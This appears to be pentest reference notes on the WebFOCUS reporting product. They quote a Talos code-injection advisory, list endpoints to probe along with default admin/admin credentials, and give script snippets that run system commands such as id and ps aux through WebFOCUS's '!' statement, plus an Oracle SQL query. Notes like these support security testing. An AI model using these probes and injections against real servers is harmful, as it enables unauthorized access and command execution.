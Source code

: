 # WebFOCUS

WebFocus: http://infocenter.informationbuilders.com/wf81rel/index.jsp 
 
## Vulnerabilities
 
From https://www.talosintelligence.com/vulnerability_reports/TALOS-2017-0315:
*Code injection is achieved on the following URL: `/ibi_apps/WFServlet`
By successfully injecting WebFOCUS code on this URL parameter while properly completing the expected syntax, an attacker can leverage the "! " statement of WebFOCUS which allows for system commands to be executed via the reporting module code.*
 
## URLs to test
 
| URL | Result|
|-----|-------|
|/ibi_apps/bid | Access to the main interface - might bypass other auth restrictions|
|/ibi_apps |To test if WebFOCUS is available, default creds of admin/admin|
|/ibi_apps/ibi_html | TOC Report?|
|/ibi_help|Help page|
|/ibi_apps/rs?IBIRS_action=TEST | The RESTful Web Services Test Page |
|/ibi_apps/WFServlet?IBFS1_action=TEST|The RESTful Web Services Test Page|
|/ibi_apps/rs/ibfs?IBRS_action=privileges| Should list available privileges|
|/ibi_apps/rs?IBIRS_action=get&IBIRS_path=/WFC/Repository&IBIRS_service=ibfs|Should list some folders?|
|/ibi_apps/rs/ibfs/WFC/Repository?IBIRS_action=get|Same as above ?|
|/ibi_apps/rs/ibfs/EDA?IBIRS_action=get|This RESTful web service request can be used to list the Reporting Server nodes that are available to WebFOCUS.|
|/ibi_apps/rs/ibfs/EDA/NodeName?IBIRS_action=get|List the applications running on a node (Nodes can be found from the query above this)|
|/ibi_apps/rs/ibfs/EDA/NodeName/AppName?IBIRS_action=get|List the files within an application - relpace NodeName and AppName|
 
 
## Script Notes
 
A minimum script needed. It throws errors but still executes
 
**Command Execution**

```
-SYSTEM ps aux
!ps aux
!id
!whoami
!/sbin/ifconfig -a

-RUN
```	

**SQL**

``` 
- SET &ECHO=ALL

SET SQLENGINE=SQLORA
ENGINE SQLORA

	SELECT user FROM dual

END

-RUN
```

## References
 
Documentation: 
- https://techsupport.informationbuilders.com/public/tc-library.html#collapseOne
- http://documentation.informationbuilders.com
 
REST authentication:
- http://infocenter.informationbuilders.com/wf8104/topic/pubdocs/REST_WebServices/source/topic12.htm
- http://documentation.informationbuilders.com/wf77x.asp
